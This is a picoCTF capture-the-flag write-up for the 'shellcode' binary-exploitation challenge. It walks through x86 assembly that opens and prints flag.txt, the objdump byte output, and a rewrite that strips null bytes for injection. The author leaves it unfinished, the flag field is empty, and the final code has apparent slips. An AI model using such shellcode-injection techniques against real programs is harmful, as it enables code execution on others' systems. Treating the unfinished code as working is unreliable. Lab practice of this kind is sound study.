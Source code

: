 # shellcode
__Category:__ Binary Exploitation   
__Points:__ 200

### Problem:

This [program](vuln) executes any input you give it. Can you get a shell? You can find the program in /problems/shellcode_2_0caa0f1860741079dd0a66ccf032c5f4 on the shell server. [Source](vuln.c).

##### Hints:
> Maybe try writing some shellcode?

> You also might be able to find some good shellcode online.

### Solution:

I started by looking at the source. The program accepts up to 148 characters as input and executes the input.
I then opened the problem directory and found a flag.txt file. I assumed printing this would give the flag. Time to write some shellcode.

```Assembly``
section .data
   bufsize dw   1024
   filename db  'flag.txt'

section .bss
   buf resb     1024
   
section .text
  global _start
 
_start:
  ; open the file
  mov ebx, filename
  mov eax, 5 ; Syscall number for open()
  int 80h    ; syscall for the function stored in eax
  
  ; Read the file
  mov ebx, eax ; Get file descriptor
  mov eax, 3   ; Syscall number for read()
  mov ecx, buf
  mov edx, bufsize
  int 80h
  
  ; Write to stdout
  mov eax, 4 ; Syscall number for write 
  mov ebx, 1 ; stdout
  mov ecx, buf
  int 80h
  ```
  
  This assembly code opens the flag.txt file, reads it into a buffer, then writes the buffer to stdout. I saved it in a file called shell.asm then used nasm to compile and ld to link the program.
  
  ```Bash
  $nasm -f elf -o shell.o shell.asm
  $ld -o shell shell.o -m elf_i386
  ```
  
  I created a flag.txt file on my computer and tested the program out. It works, so the next step was to turn it into shellcode.I used objdump to get the raw byte code
  
  ```Bash
  $objdump -M intel -d shell

shell:     file format elf32-i386


Disassembly of section .text:

08049000 <_start>:
 8049000:	bb 02 a0 04 08       	mov    ebx,0x804a002
 8049005:	b8 05 00 00 00       	mov    eax,0x5
 804900a:	cd 80                	int    0x80
 804900c:	89 c3                	mov    ebx,eax
 804900e:	b8 03 00 00 00       	mov    eax,0x3
 8049013:	b9 0c a0 04 08       	mov    ecx,0x804a00c
 8049018:	ba 00 a0 04 08       	mov    edx,0x804a000
 804901d:	cd 80                	int    0x80
 804901f:	b8 04 00 00 00       	mov    eax,0x4
 8049024:	bb 01 00 00 00       	mov    ebx,0x1
 8049029:	b9 0c a0 04 08       	mov    ecx,0x804a00c
 804902e:	cd 80                	int    0x80
  ```
  
 Since we are injecting the program as a string we cannot have any null bytes (represented by 00) since this will terminate the string. I rewrote the program using some tricks to remove any null bytes. Also since we are only injecting the start function, I pushed "flag.txt" onto the stack.
 
 ```Assembly
 section .data
   bufsize dw   1024

section .bss
   buf resb     1024
   
section .text
  global _start
 
_start:
  xor eax, eax    ; clear eax
  ; push "flag.txt" onto the stack (in reverse order)
  push edx
  push 0x7478742e ; txt.
  push 0x67616c66 ; galf
  
  ; open the file
  mov ebx, esp ; filename
  xor eax, eax
  mov al,  5   ; Syscall number for open()
  int 80h      ; syscall for the function stored in eax
  
  ; Read the file
  mov ebx, eax ; Get file descriptor
  xor eax, eax
  mov al, 3    ; Syscall number for read()
  mov ecx, buf
  mov edx, bufsize
  int 80h
  
  ; Write to stdout
  xor eax, eax
  xor ebx, ebx
  mov al, 4 ; Syscall number for write 
  mov bl, 1 ; stdout
  mov ecx, buf
  int 80h
 ```
 
 I just realized this is going to be way too long to input into our program. I'll get back to this problem soon. I'll probably try executing /bin/sh
  
### Flag:

picoCTF{}
